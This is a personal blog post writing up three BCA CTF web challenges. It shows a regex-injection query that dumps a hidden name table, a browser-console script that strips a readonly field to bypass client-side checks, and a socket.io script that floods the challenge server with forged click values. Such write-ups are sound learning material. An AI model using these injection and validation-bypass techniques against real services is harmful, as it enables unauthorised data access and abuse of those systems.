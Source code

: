 ```yaml
---
layout: post
title: "The Summer of Challs: Week 5"
date: 2024-06-16
categories: CTFs
---
```


This week, I tried a bunch of web challenges from BCA CTF. Here were the ones I solved:

## NOSQL

Upon opening the page, we simply see the message: "Not a valid query : (". 

![NoSQL](/assets/NoSQL.jpg)

Based on the title and challenge description, I knew that I had to do some kind of NoSQL injection. I read the source code to figure out how the application was set up. 

Essentailly, all the lines of a file called 'table.txt' are read into a variable. The app then checks what we send through this part of the code:

```Javascript
app.get('/', (req, res) => {
    if (!req.query.name) {
        res.send("Not a valid query :(")
        return;
    }
    let goodLines = []
    text.forEach( line => {
        if (line.match('^'+req.query.name+'$')) {
            goodLines.push(line)
        }
    });
    res.json({"rtnValues":goodLines})
})
```

It returned "Not a valid query : (" because we didn't put a name parameter in the query string. Once we do, the app loops through the elements of the array that stores the text file lines, and uses a regex expression to match whatever we inputted. Any matches are pushed to a new array, and returned to the front end where the user can supposedly see it. 
 
I reasoned that I needed to make some sort of query that would leak this table, and then make a query according to what was shown in another part of the source code to get the flag:

```JS
app.get('/:id/:firstName/:lastName', (req, res) => {
    // Implementation not shown
    res.send("FLAG")
})
```

In order to make a query that returned the whole table, whatever we passed had to return a match for any of the names. This means we need to bypass the regex check somehow. I did this with the wildcard `.*` which matches anything in this given regex expression. I made a query like this: `url/?name=.*`, and the server returned this:

![NoSql](/assets/%20noSQLNames.jpg)

The last element in this returned array is "Flag Holder", which is obviously the user we need to query for the flag. I copied the array into the console and checked for its length, which was 51. I thought that the user was of ID 50, because I assumed the counting started from 0. This however didn't work, so the IDs must have been counted from 1. 

I then made this request: `url/51/Flag/Holder`, and got the flag:

![NoSql](/assets/NoSQLFlag.jpg)

## PHONE NUMBER

![PhoneNumber](/assets/PhoneNumber.JPG)

We are told to enter our phone number, but can't type anything in. Instead, we have to roll dice, add and subtract the values from these dice, and add the resulting value, one digit at a time. The phone number we need to enter, given by the challenge, is 1234567890. 

The frontend code (they used inline scripting) ensures that we can't actually enter the phone number through this long dice method because anytime we roll snake eyes (two 1s), it will reset the input. And, if at any point, we are at "123456789", it will make sure we roll snake eyes before we can complete the number.

We can't type anything in because they have added a "readonly" attribute to the input box. When we hit submit, it sends our number to a /flag endpoint in the website, where it will return incorrect because it is impossible to send the full number. 

I actually solved this in the console. First, I cloned the input element and removed the readOnly attribute:

```Javascript
var inputField = document.getElementById('input');

function replaceInputElement(element) {
    var newElement = element.cloneNode(true);
    element.parentNode.replaceChild(newElement, element);
    return newElement;
}

inputField = replaceInputElement(inputField);
inputField.removeAttribute('readonly');
```

Then, I wrote a new submit function to make sure we were submitting from our new element:

```Javascript
async function submit() {
    var inputField = document.getElementById('input'); // Ensure this is the updated input field

    if (!inputField.value) {
        alert("Please enter a phone number.");
        return;
    }

    var c = confirm("Is " + inputField.value + " the correct phone number?");
    if (!c) return;

    await fetch('/flag', {
        method: "POST",
        body: inputField.value
    }).then((res) => res.text()).then((text) => text.length !== 0 ? document.body.innerHTML = text : alert("Sorry, incorrect."));
```

After running this code, I could type in the input box. From there, I just typed the phone number, hit submit, and got the flag: 

![Phone Number](/assets/PhoneNumberFlag.jpg)

## COOKIE CLICKER

![Cookie Clicker](/assets/CookieClicker.jpg)

The webapp here is basically a picture of a cookie. We can click it which increments a counter, and in order to get the flag, we have to click it 1e20 times. I don't think even the best cookie clicker players can get that manually.

The server used a websocket and some weird calcuations with exponents and Math.random() to make sure that the client is synchronous with it. Essentially, this made it hard for us to just make a script that made many requests. 

However, this is basically what I ended up doing: writing a script that connected to the websocket, and sent it massive numbers thousands of times. Due to the insychronous nature of both ends using Math.Random(), there were some delays. However, I did get this script to work: 

```Javascript
const io = require('socket.io-client');
const socket = io('http://challs.bcactf.com:31386'); 

socket.on('connect', () => {
    console.log('Connected to the server');
    
    let totalClicks = 1000000;
    let currentValue = 0;

    for (let i = 0; i < totalClicks; i++) {
        let clickData = JSON.stringify({
            value: currentValue,
            power: Number.MAX_SAFE_INTEGER * Number.MAX_SAFE_INTEGER
        });

        socket.emit('click', clickData);
        currentValue += Math.floor(Math.random() * 1000000) + 1;


        socket.on('recievedScore', (msg) => {
            let data = JSON.parse(msg);
            console.log(`Current Score: ${data.value}`);
            console.log('clickCount: ' + i)
        });

        socket.on('error', (err) => {
            console.log(`Error: ${err}`);
        });

        if (currentValue > 1e20) {
            console.log('1e20 cookies');
            break;
        }
    }
});

socket.on('disconnect', () => {
    console.log('Disconnected from the server');
});
```

I ran it and got the flag in the terminal:


![Cookie Clicker](/assets/CookieClickerFlag.jpg)

I'm not sure if this was the most efficient or intended way of solving this, but it got me the flag!

I would say that these challenges weren't exactly my favorite, but they helped iron out javascript skills a bit. The web grind continues this week! 
